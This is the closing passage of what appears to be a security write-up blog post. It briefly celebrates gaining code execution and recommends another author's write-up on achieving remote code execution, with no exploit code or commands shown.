
We got code execution all due to a single line of code. Pretty cool.


To end this blog post off, I’d recommend checking out Eth007’s writeup on how to get RCE working 1/3rd of the time. The final exploit’s super cool, and his post helped inspire/guide me to write up this one.


*Sharing is caring!


	    

	    

		

	    

	    

		

	    
